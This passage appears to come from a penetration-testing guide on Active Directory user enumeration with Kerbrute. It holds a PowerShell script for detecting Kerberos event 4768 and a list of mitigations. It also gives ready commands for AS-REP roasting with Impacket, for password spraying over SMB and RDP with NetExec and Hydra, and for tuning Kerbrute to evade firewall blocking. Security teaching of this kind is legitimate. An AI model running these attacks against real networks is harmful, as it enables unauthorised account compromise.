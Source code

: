 ### Defense and Detection

#### Detection Methods
```bash
# Monitor for rapid 4768 events from single IP
# PowerShell detection script:
Get-WinEvent -LogName Security | Where-Object {
    $_.Id -eq 4768 -and $_.TimeCreated -gt (Get-Date).AddMinutes(-5)
} | Group-Object {$_.Properties[6].Value} | Where-Object Count -gt 10
```

#### Mitigation Strategies
- **Account lockout policies** - But affects legitimate users
- **Rate limiting** - Throttle authentication requests
- **Network monitoring** - Detect unusual Kerberos traffic
- **Honey accounts** - Fake accounts to detect enumeration

### Alternative Tools

#### If Kerbrute Doesn't Work
```bash
# Impacket GetNPUsers (AS-REP Roasting)
python3 GetNPUsers.py domain.local/ -usersfile users.txt -no-pass -dc-ip 10.10.10.10

# NetExec password spraying
netexec smb 10.10.10.10 -u users.txt -p 'Password123!' --continue-on-success

# Hydra for RDP/SMB
hydra -L users.txt -p Password123! smb://10.10.10.10
hydra -L users.txt -p Password123! rdp://10.10.10.10
```

### Troubleshooting

#### Common Issues and Solutions
```bash
# Issue: "connection refused"
# Solution: Check DC IP and port 88
nmap -p 88 10.10.10.10

# Issue: "clock skew detected"  
# Solution: Sync time with DC
sudo ntpdate -s 10.10.10.10

# Issue: ARM64 binary not available
# Solution: Compile from source (see installation section)

# Issue: Too slow enumeration
# Solution: Increase threads
./kerbrute userenum -d domain.local users.txt --dc 10.10.10.10 -t 100

# Issue: Getting blocked by firewall
# Solution: Use delay between attempts
./kerbrute userenum -d domain.local users.txt --dc 10.10.10.10 --delay 2000
```
